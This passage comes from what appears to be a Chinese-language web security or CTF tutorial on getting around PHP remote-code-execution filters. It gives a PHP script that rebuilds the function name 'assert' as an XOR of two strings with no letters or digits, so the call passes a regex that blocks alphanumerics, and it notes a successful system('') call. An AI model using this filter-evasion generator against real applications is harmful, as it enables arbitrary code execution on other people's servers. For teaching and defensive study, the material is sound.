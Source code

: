 看到成功执行了system('');命令。

### 法二：一个脚本(好用)

```php
//RCE异或_good.php
<?php
$shell = "assert";
$result1 = "";
$result2 = "";
for($num=0;$num<=strlen($shell);$num++)
{
    for($x=33;$x<=126;$x++)
    {
        if(judge(chr($x)))
        {
            for($y=33;$y<=126;$y++)
            {
                if(judge(chr($y)))
                {
                    $f = chr($x)^chr($y);
                    if(isset($shell[$num])) {
                        if ($f == $shell[$num]) {
                            $result1 .= chr($x);
                            $result2 .= chr($y);
                            break 2;
                        }
                    }
                }
            }
        }
    }
}

echo $shell.'的异或组成为："'.$result1.'"^"'.'$result2'.'"';
//echo $shell.'的组成为以下两部分';
//echo "\r\n";
//echo $result1;
//echo "\r\n";
//echo $result2;

function judge($c)
{
    if(!preg_match('/[a-z0-9]/is',$c))
    {
        return true;
    }
    return false;
}
```

这个POC可以将"assert"变成两个字符串异或的结果。为了便于表示，生成字符串的范围我均控制为可见字符(即ASCII为33~126)，如果要使POC适用范围更广，可以改为0~126，只不过对于不可见字符，需要用url编码表示。
